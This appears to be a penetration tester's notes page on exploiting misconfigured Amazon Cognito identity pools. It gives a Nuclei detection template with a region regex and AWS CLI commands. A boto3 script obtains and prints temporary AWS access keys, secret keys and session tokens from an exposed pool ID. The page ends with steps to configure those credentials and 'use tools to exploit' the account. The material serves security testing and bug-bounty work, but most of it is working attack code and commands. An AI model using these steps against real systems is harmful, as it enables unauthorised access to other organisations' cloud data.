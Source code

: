 # Amazon Cognito missconfiguration



## Detech

```
us-east-1:xxx
us-east-2:xxx
us-west-1:xxx
us-west-2:xxx
eu-west-1:xxx
eu-west-2:xxx
eu-west-3:xxx
eu-north-1:xxx
eu-central-1:xxx
ap-south-1:xxx
ap-southeast-1:xxx
ap-southeast-2:xxx
ap-northeast-1:xxx
ap-northeast-2:xxx
ap-northeast-3:xxx
sa-east-1:xxx
ca-central-1:xxx
cn-north-1:xxx
cn-northwest-1:xxx
```

## How found

```
Found 
- com.amplify.Cognito.eu-west-1.blalalalalalalalalala.identityId
- Value (eu-west-1:e3923078-cccc-bbbb-aaaa-xxxxxxxxxxxx)
both in Local Storage (always should check Local Storage)

use command:

aws cognito-identity get-credentials-for-identity \n
--identity-id "eu-west-1:e3923078-cccc-bbbb-aaaa-xxxxxxxxxxxx"

Data
{
Credentials:
    { "Access..": ...
    "SecretKey": ...
    "SessionToken": ...
    }
    
    
```

Nuclei template

```
id: Exposed-aws-Identity-Pool-Id

info:
      name: AWS Identity Pool Id
      author: B0d4
      severity: critical
      reference:
        - https://docs.aws.amazon.com/cognito/latest/developerguide/identity-pools.html
      metadata:
        verified: true
        max-request: 1
      tags: disclosure,aws,exposure,amazon
http:
    - method: GET
      path:
        - "{{BaseURL}}"

      extractors:
        - type: regex
          part: body
          regex:
              - \b(?:us-east-1|us-east-2|us-west-1|us-west-2|eu-west-1|eu-west-2|eu-west-3|eu-north-1|eu-central-1|ap-south-1|ap-southeast-1|ap-southeast-2|ap-northeast-1|ap-northeast-2|ap-northeast-3|sa-east-1|ca-central-1|cn-north-1|cn-northwest-1):[a-z0-9-]+\b
```

Credit: [https://github.com/Wh02m1/nuclei-templete-for-Exposed-Idenetity-Pool-Id/](https://github.com/Wh02m1/nuclei-templete-for-Exposed-Idenetity-Pool-Id/)



<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```
Next use that access and secret key access data

aws configure --profile profiletest

because of that session have  time to out, we should config in

~/.aws/credentials

Manual add line aws_session_token is SessionToken

Or use this python script

import boto3

region='region_here'
identity_pool='identity_Pool_Id_here'

client = boto3.client('cognito-identity',region_name=region)
_id = client.get_id(IdentityPoolId=identity_pool)
_id = _id['IdentityId']

credentials = client.get_credentials_for_identity(IdentityId=_id)
access_key = credentials['Credentials']['AccessKeyId']
secret_key = credentials['Credentials']['SecretKey' ]
session_token = credentials['Credentials']['SessionToken']
identity_id = credentials['IdentityId']
print("Access Key: " + access_key)
print("Secret Key: " + secret_key)
print("Session Token: " + session_token)
print("Identity Id: " + identity_id)
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```
Next test 

aws sts get-caller-identity --profile profiletest

use tools to exploit
https://github.com/NotSoSecure/cloud-service-enum.git
```

{% embed url="https://awstip.com/how-i-exploited-amazon-cognito-misconfigurations-to-access-confidential-s3-data-badb62cabfab" %}

